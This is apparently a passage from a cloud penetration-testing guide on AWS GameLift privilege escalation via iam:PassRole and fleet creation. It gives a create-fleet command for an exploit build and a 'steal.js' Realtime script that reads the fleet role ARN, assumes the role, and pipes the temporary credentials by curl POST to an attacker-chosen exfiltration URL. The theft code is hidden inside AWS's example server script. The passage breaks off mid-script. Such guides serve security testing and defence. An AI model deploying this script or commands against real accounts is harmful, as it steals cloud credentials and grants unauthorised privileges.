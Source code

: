 Finally, create a fleet with the uploaded build and wait for temporary credentials to be sent on your server. Remember to set your `BUILD_ID`.

```bash
export BUILD_ID=build-1111aaaa-22bb-33cc-44dd-5555eeee66ff
aws gamelift create-fleet \
    --name PrivEscExploit \
    --description 'PrivEsc demonstration' \
    --build-id $BUILD_ID \
    --ec2-instance-type c4.large \
    --fleet-type ON_DEMAND \
    --runtime-configuration 'ServerProcesses=[{LaunchPath=/local/game/release-na/MegaFrogRace_Server.exe,ConcurrentExecutions=1}]' \
    --instance-role-arn $AWS_ROLE_ARN
```

**Potential Impact:** Direct privilege escalation to any Gamelift role.

### iam:PassRole, gamelift:CreateFleet, (gamelift:CreateScript | gamelift:UpdateScript)

Another option to create a fleet is by using the Realtime Servers option. This option runs a lightweight game server and lets developers modify its configuration and behavior using scripts written in JavaScript.

Similar to build exploitation, an attacker needs to create a JavaScript file that will assume a role attached to a fleet. To ensure that the malicious script will be successfully launched by Realtime Server, an attacker can modify an example script provided by AWS in the docs.

Example of the `steal.js` file. Remember to set your own `exfilURL`: 

```jsx
const exfilURL = "http://your.server/"

// Exploit part
const cp = require("child_process");
const fs = require('fs');
const os = require('os');

function readJsonFile(filePath) {
  try {
    const data = fs.readFileSync(filePath, 'utf8');
    return JSON.parse(data);
  } catch (error) {
    console.error('Error reading or parsing JSON file:', error.message);
    return null;
  }
}
var pathToMetadata = "";
if (os.platform == "linux") {
    pathToMetadata = '/local/gamemetadata/gamelift-metadata.json';
  } else {
    pathToMetadata = 'C:\\GameMetadata\\gamelift-metadata.json';
} 
const jsonObject = readJsonFile(pathToMetadata);

const assume_role_cmd = `aws sts assume-role --role-arn ${jsonObject.instanceRoleArn} --role-session-name PrivEsc | curl -X POST --data-binary @- ${exfilURL}`

cp.exec(assume_role_cmd)

// AWS Realtime script example
'use strict';

const configuration = {
    pingIntervalTime: 30000,
    maxPlayers: 32
```